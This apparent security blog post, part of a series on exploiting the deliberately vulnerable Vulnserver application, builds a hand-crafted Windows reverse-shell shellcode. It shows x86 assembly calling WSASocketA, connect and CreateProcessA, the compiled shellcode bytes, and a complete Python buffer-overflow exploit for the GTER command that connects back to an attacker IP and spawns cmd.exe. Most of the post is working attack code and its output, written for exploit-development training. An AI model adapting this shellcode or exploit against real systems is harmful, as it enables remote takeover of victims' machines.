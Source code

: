 :slug: vulnserver-gter-no-egghunter/
:date: 2020-06-12
:category: attacks
:subtitle: Every byte counts
:tags: osce, vulnserver, training, exploit
:image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620331149/blog/vulnserver-gter-no-egghunter/cover_tsjvux.webp
:alt: Photo by Florian Klauer on Unsplash
:description: In this post, we will use an alternative way of exploiting Vulnserver GTER command.
:keywords: Business, Information, Security, Protection, Hacking, Exploit, OSCE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/mk7D-4UCfmg

= GTER Exploit: Reusing Socket Stack

This is the third article on the series of exploiting `Vulnserver`,
a `VbD` (Vulnerable-by-Design) application in which you can practice Windows
exploit development.

In our link:../vulnserver-gter/[previous post], we successfully exploited
the `GTER` command using a technique called `Egghunting` or `Egghunter`.

Using an egghunter was required because we had a reduced buffer to fit a
shellcode, as generated by `msfvenom` and other tools.

In this post, we will use a manually carved shellcode that will harness
instructions that are already loaded on `Vulnserver`, allowing us to
reduce the final length of our payload.

== Reverse shellcode X-ray

A reverse shellcode is basically a series of Windows `API` function calls
arranged in a delicate order to make a victim machine connect back to an
attacker machine issuing a Windows shell, which is commonly an instance
of `cmd.exe`.

The order of execution of a fully crafted shellcode is the following:

. Call `WSAStartup()` to load the needed `WinSock` DLLs. Use a call to
`LoadLibraryA` underneath.
. Call `socket()` or `WSASocketA()` to bind a new socket handle.
. Call `connect()` or `WSAConnect()` to establish a connection to the
attacker machine.
. Call `CreateProcessA()`, which calls `cmd.exe`
and where the `STDIN`, `STDOUT`, and `STDERR`
are redirected to the previously generated socket handle.

However, if we are exploiting a `TCP/IP` server like `Vulnserver`,
chances are that the 'WinSock' DLL library is already loaded
and initialized. That means that we can spare `WinSock` rutines initialization
from our shellcode that can save us a great amount of bytes. Every byte counts.

As a reference, let's create a reverse shellcode using `msfvenom`:

.msfvenom
[source,console]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.20 LPORT=4444 EXITFUNC=thread -f raw -o /dev/null -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Saved as: /dev/null
----

This shellcode is 351 bytes long. And, if you remember on our link:../vulnserver-gter/[previous post],
we only had around 144 bytes to play.

The whole idea of reusing instructions is to minimize the resultant shellcode.

To do that, we need to know what functions need to be called, with what
parameters, and translate that into Assembler language to then convert it into
our shellcode, keeping in mind to avoid the null bytes that would lead
to making our shellcode unusable. It sounds harder than it really is.

With that in mind, let's look at the signatures of the needed functions:

=== WSASocketA()

.WSASocketA() signature
[source,cpp]
----
SOCKET WSAAPI WSASocketA(
  int                 af,
  int                 type,
  int                 protocol,
  LPWSAPROTOCOL_INFOA lpProtocolInfo,
  GROUP               g,
  DWORD               dwFlags
);
----

If we are going to write this in Assembler, we must remember
that in the x86 architecture the functions are called in a very specific way:

. The parameters are pushed to the stack on reverse order.
. We call the required function.
. That function will store the returned value on `EAX`.

For example, the structure for calling `WSASocketA` function is as follows:

. Push `dwFlags` parameter to the stack.
. Push `g` parameter to the stack.
. Push `lpProtocolInfo` parameter to the stack.
. Push `protocol` parameter to the stack.
. Push `type` parameter to the stack.
. Push `af` parameter to the stack.
. Call `WSASocketA()`.
. Retrieve the return value of `WSASocketA()` from `EAX` which is the
resulting socket handle.

We also need to know the exact address of the `WSASocketA()` on the system.
Normally, those function addresses won't change much on a specific version
of Windows but will likely change over different updates,
so keep that in mind when creating custom shellcodes.

For retrieving the addresses of functions on the current `OS`,
you can use the link:http://www.vividmachines.com/shellcode/arwin.c[arwin] tool:

.arwin finding WSASocketA()
[source,console]
----
C:\Documents and Settings\Administrator>arwin ws2_32 WSASocketA
arwin - win32 address resolution program - by steve hanna - v.01
WSASocketA is located at 0x71ab8b6a in ws2_32
----

Ok, with all the required information, we can proceed to write some Assembler.
We need to get a socket handle that can be used by a `TCP` connection.
With that in mind, we can write the call to `WSASocketA()`:

.WSASocketA() in ASM
[source,x86asm]
----
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'dwFlags' parameter
push ebx                ; Push 'g' parameter
push ebx                ; Push 'lpProtocolInfo' parameter
mov bl,0x6              ; Protocol: IPPROTO_TCP=6
push ebx                ; Push 'protocol' parameter
xor ebx,ebx             ; Zero out EBX again
inc ebx                 ; Type: SOCK_STREAM=1
push ebx                ; Push 'type' parameter
inc ebx                 ; Af: AF_INET=2
push ebx                ; Push 'af' parameter
mov ebx,0x71ab8b6a      ; Address of WSASocketA() on WinXPSP3
call ebx                ; call WSASocketA()
xchg eax,esi            ; Save the returned socket handle on ESI
----

Nice, we stored the socket handle in the ESI register that we will
need in the forthcoming functions.

=== connect()

The `connect()` call will create the connection back to the attacker
using the socket handle generated by `WSASocketA` that we stored in ESI:

.connect() signature
[source,cpp]
----
int WSAAPI connect(
  SOCKET         s,
  const sockaddr *name,
  int            namelen
);
----

The `sockaddr` parameter is in turn:

[source,cpp]
----
struct sockaddr {
        ushort  sa_family;
        char    sa_data[14];
};
----

Get the address of `connect()`:

.arwin finding connect()
[source,console]
----
C:\Documents and Settings\Administrator>arwin ws2_32 connect
arwin - win32 address resolution program - by steve hanna - v.01
connect is located at 0x71ab4a07 in ws2_32
----

Now that we know the structure of the `connect()` function call
and the address of the function, we can write it in Assembler:

.connect() in Assembler
[source,x86asm]
----
push 0x1400a8c0         ; Push attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16             ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()
----

Note that the attacker `IP` address parameter contains a null byte,
which will stop the injection of the payload. To overcome that,
we can add a static value to that address, subtract it again,
and push the result. This will be the final `connect()` payload:


.connect() in Assembler
[source,x86asm]
----
mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
                        ; 0x1400a8c0 + 55555555 = 6955FE15
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; This will push 0x1400a8c0 to the stack without
                        ; injecting null bytes
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()
----

=== CreateProcessA()

Now comes the final function `CreateProcessA()`, which is responsible for
creating an instance of the `cmd.exe` command. We also need to point the
`STDIN`, `STDOUT` and `STDERR` descriptors to our socket handle to make the
resultant shell interactive for us.

.CreateProcessA() signature
[source,cpp]
----
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
----

We need to fill the `_STARTUPINFOA` structure. Luckily for us, most
of the parameters are NULL:

[source,cpp]
----
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFOA, *LPSTARTUPINFOA;
----

And the `_PROCESS_INFORMATION` is even easier as all the fields can be NULL:

[source,cpp]
----
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
----

Get the address of `CreateProcessA()`:

.arwin finding CreateProcessA()
[source,console]
----
C:\Documents and Settings\Administrator>arwin kernel32 CreateProcessA
arwin - win32 address resolution program - by steve hanna - v.01
CreateProcessA is located at 0x7c80236b in kernel32
----

In Assembler, the call to `CreateProcessA()` will look like this:

.CreateProcessA() in Assembler
[source,x86asm]
----
mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                        ; injecting null bytes.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp       	    ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName
mov ebx,0x7c80236b      ; Address of CreateProcessA()
call ebx                ; Call CreateProcessA() on WinXPSP3
----

== Putting it all together

Our final shellcode will be this:

.shellcode.asm
[source,x86asm]
----
; WSASocketA()
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'dwFlags' parameter
push ebx                ; Push 'g' parameter
push ebx                ; Push 'lpProtocolInfo' parameter
mov bl,0x6              ; Protocol: IPPROTO_TCP=6
push ebx                ; Push 'protocol' parameter
xor ebx,ebx             ; Zero out EBX again
inc ebx                 ; Type: SOCK_STREAM=1
push ebx                ; Push 'type' parameter
inc ebx                 ; Af: AF_INET=2
push ebx                ; Push 'af' parameter
mov ebx,0x71ab8b6a      ; Address of WSASocketA() on WinXPSP3
call ebx                ; Call WSASocketA()
xchg eax,esi            ; Save the returned socket handle on ESI

; connect()
mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
                        ; 0x1400a8c0 + 55555555 = 6955FE15
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; This will push 0x1400a8c0 to the stack without
                        ; injecting null bytes
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()

; CreateProcessA()

mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                        ; injecting null bytes.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp       	    ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName
mov ebx,0x7c80236b      ; Call CreateProcessA()
call ebx
----

We can compile this using `nasm`:

.nasm compilation
[source,console]
----
$ nasm -f elf32 -o shellcode.o shellcode.asm
----

And obtain the resulting shellcode with:

[source,bash]
----
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43\x53\xbb\x6a\x8b\xab\x71
\xff\xd3\x96\xbb\x15\xfe\x55\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c
\x31\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb\x07\x4a\xab\x71\xff
\xd3\xbb\x41\x63\x6d\x64\xc1\xeb\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52
\x31\xc0\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x80\xc2
\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53
\x4b\x53\x53\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3
----

As you can see, the resulting shellcode is only 126 bytes long and will
nicely fit on our buffer without the need to use egghunters.

== Update our exploit

Now that we have our manually created shellcode, we can update our
link:../vulnserver-gter/[previous exploit].

We will remove the egghunter and the previous shellcode and will include our
custom shellcode. Let's see how it looks now:

.exploit-socketreuse.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

CUSTOM_SHELL = (
    b'\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43' +
    b'\x53\xbb\x6a\x8b\xab\x71\xff\xd3\x96\xbb\x15\xfe\x55' +
    b'\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c\x31' +
    b'\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb' +
    b'\x07\x4a\xab\x71\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb' +
    b'\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52\x31\xc0' +
    b'\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52' +
    b'\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52' +
    b'\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53' +
    b'\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3'
)

PAYLOAD = (
    b'GTER /.:/' +
    CUSTOM_SHELL +
    b'A' * (147 - len(CUSTOM_SHELL)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

It looks simpler! Now, run it to see what happens:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331147/blog/vulnserver-gter-no-egghunter/take1_y3ehtd.gif[Take 1]

Uhmmm, we got the reverse connection but no shell!

Let's see what is going on:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331149/blog/vulnserver-gter-no-egghunter/take2_bsaxnn.gif[Take 1]

As we can see, several things have happened:

. Our buffer was correctly delivered.
. The `JMP ESP` instruction was successfully triggered.
. The jump backward occurred.
. And we landed at the start of our custom shellcode.

However, if you look carefully at this image:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331147/blog/vulnserver-gter-no-egghunter/esp1_uhrqpf.webp[ESP]

We can see that the `ESP` register is only 24 bytes below the end of our
custom shellcode. That means that with every `PUSH` performed on our
custom shellcode, that pointer will get closer to it
and start *overwriting* it. That's not good news.

This graph illustrates the issue:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331147/blog/vulnserver-gter-no-egghunter/stackgrowth_wqde3m.webp[ESP]

As the execution flows towards a higher memory address,
the stack grows backward and will eventually overwrite our shellcode.

However, if you look at the image again, you can see that the `EAX` register
points to the `GTER /.:/` string, which is above our shellcode.

All that's left to do is align the stack to point to that location,
and it's done easily with two instructions:

.Align stack
[source,x86asm]
----
push eax
pop esp
----

The first instruction will push the current value of `EAX` to the stack,
and the second will pop back that value to the `ESP` register, moving the
stack pointer above our shellcode, protecting it from being overwritten.

We can use `nasm_shell.rb` from Metasploit
to get the opcodes of those instructions:

.nasm_shell
[source,console]
----
$ cd /opt/metasploit-framework/embedded/framework/tools/exploit
$ ./nasm_shell.rb
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
----

Ok, now we can add those instructions to our exploit and see what happens:

.exploit-socketreuse.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

CUSTOM_SHELL = (
    b'\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43' +
    b'\x53\xbb\x6a\x8b\xab\x71\xff\xd3\x96\xbb\x15\xfe\x55' +
    b'\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c\x31' +
    b'\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb' +
    b'\x07\x4a\xab\x71\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb' +
    b'\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52\x31\xc0' +
    b'\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52' +
    b'\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52' +
    b'\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53' +
    b'\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3'
)

PAYLOAD = (
    b'GTER /.:/' +
    # Align stack to avoid overwrite our shellcode
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    CUSTOM_SHELL +
    b'A' * (147 - 2 - len(CUSTOM_SHELL)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And execute the exploit again:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331147/blog/vulnserver-gter-no-egghunter/success_kb3rs4.gif[Shell]

Whooo! We got our shell again!

You can download the final exploit link:exploit.py[here]

== Conclusion

This time I wanted to show that there are always ways to overcome
harsh exploitation environments, just by trying harder.


== References

. link:https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_shell.asm[Metasploit block_shell]
. link:https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa[WSASocketA function]
. link:https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect[connect function]
. link:https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa[CreateProccessA function]
